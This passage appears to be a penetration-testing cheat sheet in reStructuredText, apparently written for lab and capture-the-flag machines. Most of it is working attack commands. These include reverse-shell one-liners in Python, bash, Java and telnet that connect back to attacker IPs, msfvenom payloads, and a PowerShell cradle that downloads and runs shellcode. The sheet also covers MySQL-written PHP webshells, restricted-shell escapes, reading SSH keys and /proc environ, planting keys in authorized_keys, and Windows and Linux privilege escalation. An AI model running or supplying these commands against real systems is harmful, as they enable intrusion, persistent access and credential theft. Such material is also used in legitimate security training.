  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

UDP

::

 import os,pty,socket;s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(("10.10.14.17", 4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE",'/dev/null');pty.spawn("/bin/sh");s.close()

Java
^^^^

.. code-block :: java 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: jsp 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server (attacker machine) is listening on a port:

::

  nc -lvp port

then we can use the below to connect

Method 1: 

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1

Method 2:

::

 exec 5<>/dev/tcp/IP/80
 cat <&5 | while read line; do $line 2>&5 >&5; done  

 # or:

 while read line 0<&5; do $line 2>&5 >&5; done

Method 3:

::

 0<&196;exec 196<>/dev/tcp/IP/Port; sh <&196 >&196 2>&196

 -- We may execute the above using bash -c "Aboveline "

`Information about Bash Built-in /dev/tcp File (TCP/IP) <http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip>`_

The following script fetches the front page from Google:

::

 exec 3<>/dev/tcp/www.google.com/80
 echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
 cat <&3

* The first line causes file descriptor 3 to be opened for reading and writing on the specified TCP/IP socket. This is a special form of the exec statement. From the bash man page:

 ::

  exec [-cl] [-a name] [command [arguments]]

 If command is not specified, any redirections take effect in the current shell, and the return status is 0. So using exec without a command is a way to open files in the current shell.

* Second line:  After the socket is open we send our HTTP request out the socket with the echo ... >&3 command. The request consists of:

 ::

  GET / HTTP/1.1
  host: http://www.google.com
  Connection: close

 Each line is followed by a carriage-return and newline, and all the headers are followed by a blank line to signal the end of the request (this is all standard HTTP stuff).

* Third line: Next we read the response out of the socket using cat <&3, which reads the response and prints it out.

Telnet Reverse Shell
^^^^^^^^^^^^^^^^^^^^

::

 rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

 telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

.. Todo:: explain the example above

XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the victim server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1 -listen tcp

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. 
This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e

   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can read files by using the load_file function.

 :: 
	
   select load_file('/etc/passwd');

Reverse Shell from Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^

If there's a way, we can execute code from windows, we may try

* Uploading ncat and executing it
* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode (from powersploit)

 ::

  Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"

.. Todo:: add Nishang?

MSF Meterpreter ELF
^^^^^^^^^^^^^^^^^^^

::

 msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.XX.110 LPORT=4446

Metasploit MSFVenom
^^^^^^^^^^^^^^^^^^^

Ever wondered from where the above shells came from? Maybe try msfvenom and grep for cmd/unix

::

 msfvenom -l payloads | grep "cmd/unix"
 **snip**
    cmd/unix/bind_awk                                   Listen for a connection and spawn a command shell via GNU AWK
    cmd/unix/bind_inetd                                 Listen for a connection and spawn a command shell (persistent)
    cmd/unix/bind_lua                                   Listen for a connection and spawn a command shell via Lua
    cmd/unix/bind_netcat                                Listen for a connection and spawn a command shell via netcat
    cmd/unix/bind_perl                                  Listen for a connection and spawn a command shell via perl
    cmd/unix/interact                                   Interacts with a shell on an established socket connection
    cmd/unix/reverse                                    Creates an interactive shell through two inbound connections
    cmd/unix/reverse_awk                                Creates an interactive shell via GNU AWK
    cmd/unix/reverse_python                             Connect back and create a command shell via Python
    cmd/unix/reverse_python_ssl                         Creates an interactive shell via python, uses SSL, encodes with base64 by design.
    cmd/unix/reverse_r                                  Connect back and create a command shell via R
    cmd/unix/reverse_ruby                               Connect back and create a command shell via Ruby
 **snip**

Now, try to check the payload

::

 msfvenom -p cmd/unix/bind_netcat
 Payload size: 105 bytes
 mkfifo /tmp/cdniov; (nc -l -p 4444 ||nc -l 4444)0</tmp/cdniov | /bin/sh >/tmp/cdniov 2>&1; rm /tmp/cdniov


.. _spawning-a-tty-shell:

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ have provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say we have a webshell on the server (probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Spawning a Fully Interactive TTYs Shell
---------------------------------------

`Ronnie Flathers <https://twitter.com/ropnop>`_ has already written a great blog on `Upgrading simple shells to fully interactive TTYs <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>`_ Hence, almost everything is taken from that blog post and kept here for completion.

Many times, we will not get a fully interactive shell therefore it will/ have: 

* Difficult to use the text editors like vim
* No tab-complete
* No up arrow history
* No job control

Socat
^^^^^

Socat can be used to pass full TTY's over TCP connections.

On Kali-Machine (Attackers - Probably yours)

::

 socat file:`tty`,raw,echo=0 tcp-listen:4444 

On Victim (launch):

::

 socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

If socat isn't installed, download standalone binaries that can be downloaded from `static binaries <https://github.com/andrew-d/static-binaries>`_ 

Download the correct binary architecture of socat to a writable directory, chmod it, execute

stty
^^^^

Use the methods mentioned in :ref:`spawning-a-tty-shell`

Once bash is running in the PTY, background the shell with Ctrl-Z
While the shell is in the background, examine the current terminal and STTY info so we can force the connected shell to match it

::
 
 echo $TERM
 xterm-256color

::

 stty -a
 speed 38400 baud; rows 59; columns 264; line = 0;
 intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;   discard = ^O; min = 1; time = 0;
 -parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
 -ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
 opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
 isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

The information needed is the TERM type ("xterm-256color") and the size of the current TTY ("rows 38; columns 116")

With the shell still backgrounded, set the current STTY to type raw and tell it to echo the input characters with the following command:

::

 stty raw -echo 

With a raw stty, input/ output will look weird and you won't see the next commands, but as you type they are being processed.

Next foreground the shell with fg. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with reset.

After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

::

 $ export SHELL=bash
 $ export TERM=xterm256-color
 $ stty rows 38 columns 116

The end result is a fully interactive TTY with all the features we'd expect (tab-complete, history, job control, etc) all over a netcat connection

ssh-key
^^^^^^^

If we have some user shell or access, probably it would be a good idea to generate a new ssh private-public key pair using ssh-keygen

::

 ssh-keygen 
 Generating public/private rsa key pair.
 Enter file in which to save the key (/home/bitvijays/.ssh/id_rsa): 
 Enter passphrase (empty for no passphrase): 
 Enter same passphrase again: 
 Your identification has been saved in /home/bitvijays/.ssh/id_rsa.
 Your public key has been saved in /home/bitvijays/.ssh/id_rsa.pub.
 The key fingerprint is:
 SHA256:JbdAhAIPl8qm/kCANJcpggeVoZqWnFRvVbxu2u9zc5U bitvijays@Kali-Home
 The key's randomart image is:
 +---[RSA 2048]----+
 |o==*+. +=.       |
 |=o**+ o. .       |
 |=+...+  o +      |
 |=.* .    * .     |
 |oO      S .     .|
 |+        o     E.|
 |..      +       .|
 | ..    . . . o . |
 |  ..      ooo o  |
 +----[SHA256]-----+

Copy/ Append the public part to /home/user/.ssh/authorized_keys

::

 cat /home/bitvijays/.ssh/id_rsa.pub 

 echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+tbCpnhU5qQm6typWI52FCin6NDYP0hmQFfag2kDwMDIS0j1ke/kuxfqfQKlbva9eo6IUaCrjIuAqbsZTsVjyFfjzo/hDKycR1M5/115Jx4q4v48a7BNnuUqi +qzUFjldFzfuTp6XM1n+Y1B6tQJJc9WruOFUNK2EX6pmOIkJ8QPTvMXYaxwol84MRb89V9vHCbfDrbWFhoA6hzeQVtI01ThMpQQqGv5LS+rI0GVlZnT8cUye0uiGZW7ek9DdcTEDtMUv1Y99zivk4FJmQWLzxplP5dUJ1NH5rm6YBH8CoQHLextWc36Ih18xsyzW8qK4Bfl4sOtESHT5/3PlkQHN bitvijays@Kali-Home" >> /home/user/.ssh/authorized_keys

Now, ssh to the box using that user.

::

 ssh user@hostname -i id_rsa

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_, `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or un-setting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. We recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile (where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"

  -t      Force pseudo-terminal allocation.  This can be used to execute arbitrary screen-based programs on a remote machine, which can be very useful, e.g. when implementing menu services.  Multiple -t options force tty allocation, even if ssh has no local tty

Getting out of rvim
^^^^^^^^^^^^^^^^^^^

Main difference of rvim vs vim is that rvim does not allow escape to shell with previously described techniques and, on top of that, no shell commands at all. Taken from `vimjail <https://ctftime.org/writeup/5784>`_

* To list all installed features it is possible to use ':version' vim command. 

 ::

  :version
  VIM - Vi IMproved 8.0 (2016 Sep 12, compiled Nov 04 2017 04:17:46)
  Included patches: 1-1257
  Modified by pkg-vim-maintainers@lists.alioth.debian.org
  Compiled by pkg-vim-maintainers@lists.alioth.debian.org
  Huge version with GTK2 GUI.  Features included (+) or not (-):
  +acl             +cindent         +cryptv          -ebcdic          +float           +job             +listcmds        +mouse_dec       +multi_byte      +persistent_undo  +rightleft       +syntax          +termresponse    +visual          +X11  
  +arabic          +clientserver    +cscope          +emacs_tags      +folding         +jumplist        +localmap        +mouse_gpm       +multi_lang      +postscript       +ruby            +tag_binary      +textobjects     +visualextra     -xfontset 
  +autocmd         +clipboard       +cursorbind      +eval            -footer          +keymap          +lua             -mouse_jsbterm   -mzscheme        +printer          +scrollbind      +tag_old_static  +timers          +viminfo         +xim
  +balloon_eval    +cmdline_compl   +cursorshape     +ex_extra        +fork()          +lambda          +menu            +mouse_netterm   +netbeans_intg   +profile          +signs           -tag_any_white   +title           +vreplace        +xpm
  +browse          +cmdline_hist    +dialog_con_gui  +extra_search    +gettext         +langmap         +mksession       +mouse_sgr       +num64           -python           +smartindent     +tcl             +toolbar         +wildignore      +xsmp_interact
  ++builtin_terms  +cmdline_info    +diff            +farsi           -hangul_input    +libcall         +modify_fname    -mouse_sysmouse  +packages        +python3          +startuptime     +termguicolors   +user_commands   +wildmenu        +xterm_clipboard
  +byte_offset     +comments        +digraphs        +file_in_path    +iconv           +linebreak       +mouse           +mouse_urxvt     +path_extra      +quickfix         +statusline      +terminal        +vertsplit       +windows         -xterm_save
  +channel         +conceal         +dnd             +find_in_path    +insert_expand   +lispindent      +mouseshape      +mouse_xterm     +perl            +reltime         - sun_workshop    +terminfo        +virtualedit     +writebackup
    system vimrc file: "$VIM/vimrc"


* Examining installed features and figure out which interpreter is installed.

* If python/ python3 has been installed

 ::

  :python3 import pty;pty.spawn("/bin/bash")

Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file


.. _unprivileged-shell-to-privileged-shell:

Unprivileged Shell to Privileged Shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

[Linux] If you have become a normal user of which you have a password, it would be a good idea to check sudo -l (for every user! Yes, even for www-data) to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a shell/ meterpreter from a windows box, probably, the first thing would be to utilize

SystemInfo
^^^^^^^^^^
Run system info and findout 

* Operating System Version
* Architecture : Whether x86 or x64.
* Hotfix installed

The below system is running x64, Windows Server 2008 R2 with no Hotfixes installed.
::

 systeminfo

 Host Name:                 VICTIM-MACHINE
 OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
 OS Version:                6.1.7600 N/A Build 7600
 OS Manufacturer:           Microsoft Corporation
 OS Configuration:          Standalone Server
 OS Build Type:             Multiprocessor Free
 Registered Owner:          Windows User
 Registered Organization:
 Product ID:                00496-001-0001283-84782
 Original Install Date:     18/3/2017, 7:04:46 ��
 System Boot Time:          7/11/2017, 3:13:00 ��
 System Manufacturer:       VMware, Inc.
 System Model:              VMware Virtual Platform
 System Type:               x64-based PC
 Processor(s):              2 Processor(s) Installed.
                            [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
                            [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
 BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
 Windows Directory:         C:\Windows
 System Directory:          C:\Windows\system32
 Boot Device:               \Device\HarddiskVolume1
 System Locale:             el;Greek
 Input Locale:              en-us;English (United States)
 Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
 Total Physical Memory:     2.048 MB
 Available Physical Memory: 1.640 MB
 Virtual Memory: Max Size:  4.095 MB
 Virtual Memory: Available: 3.665 MB
 Virtual Memory: In Use:    430 MB
 Page File Location(s):     C:\pagefile.sys
 Domain:                    HTB
 Logon Server:              N/A
 Hotfix(s):                 N/A
 Network Card(s):           1 NIC(s) Installed.
                            [01]: Intel(R) PRO/1000 MT Network Connection
                                  Connection Name: Local Area Connection
                                  DHCP Enabled:    No
                                  IP address(es)
                                  [01]: 10.54.98.9


If there are no Hotfixes installed, we can visit 

::

 C:\Windows\SoftwareDistribution\Download

This directory is the temporary location for WSUS. Updates were downloaded here, doesn't mean were installed. Otherwise, we may visit 

::

 C:\Windows\WindowUpdate.log 

which will inform if any hotfixes are installed.

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock and PowerUp Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by `rastamouse <https://twitter.com/_RastaMouse>`_ to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

* `PowerUp <https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>`_ : PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

The above can be executed by 

::

 view-source:10.54.98.X/shell.php?cmd=echo IEX (New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -

We execute powershell with noprofile and accept the input from stdin

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

Windows Kernel Exploits
^^^^^^^^^^^^^^^^^^^^^^^

`Windows Kernel Exploits <https://github.com/SecWiki/windows-kernel-exploits>`_ contains most of the compiled windows exploits. One way of running these is either upload these on victim system and execute. Otherwise, create a smb-server using Impacket

::

 usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support] shareName sharePath

 This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. No authentication will be enforced. Example: smbserver.py -comment 'My share' TMP /tmp

 positional arguments:
   shareName         name of the share to add
   sharePath         path of the share to add


Assuming, the current directory contains our compiled exploit, we can

::

 impacket-smbserver <sharename> `pwd`
 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 [*] Config file parsed
 [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
 [*] Config file parsed
 [*] Config file parsed
 [*] Config file parsed

Once, smbserver is up and running, we can execute code like

::

 view-source:VictimIP/shell.php?cmd=\\YourIP\ShareName\ms15-051x64.exe whoami

 *Considering shell.php is our php oneliner to execute commands.


Abusing Token Privileges
^^^^^^^^^^^^^^^^^^^^^^^^

If we have the windows shell or meterpreter, we can type "whoami /priv" or if we have meterpreter, we can type "getprivs"

If we have any of the below privileges, we can possibly utilize `Rotten Potato <https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/>`_ 

::

 SeImpersonatePrivilege
 SeAssignPrimaryPrivilege
 SeTcbPrivilege
 SeBackupPrivilege
 SeRestorePrivilege
 SeCreateTokenPrivilege
 SeLoadDriverPrivilege
 SeTakeOwnershipPrivilege
 SeDebugPrivilege


The above was for the Windows OS and the below is for Linux OS.


Linux Privilege Escalation
--------------------------

Techniques for Linux privilege escalation:

Privilege escalation from g0tm1lk blog
--------------------------------------

Once, we have got the unprivileged shell, it is very important to check the below things

* Did you tried "sudo -l" and check if we have any binaries which can be executed as root?
* Are there any binaries with Sticky, suid, guid.
* Are there any world-writable folders, files.
* Are there any world-execuable files.
* Which are the files owned by nobody (No user)
* Which are the files which are owned by a particular user but are not present in their home directory. (Mostly, the users have files and folders in /home directory. However, that's not always the case.)
* What are the processes running on the machines? (ps aux). Remember, If something like knockd is running, we would come to know that Port Knocking is required.
* What are the packages installed? (dpkg -l for debian) (pip list for python packages). Maybe some vulnerable application is installed ready to be exploited (For example: chkroot version 0.49 or couchdb 1.7).
* What are the services running? (netstat -ln)
* Check the entries in the crontab!
* What are the files present in the /home/user folder? Are there any hidden files and folders? like .thunderbird/ .bash_history etc.
* What groups does the user belong to (adm, audio, video, disk)? 
* What other users are logged on the linux box (command w)? 

What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
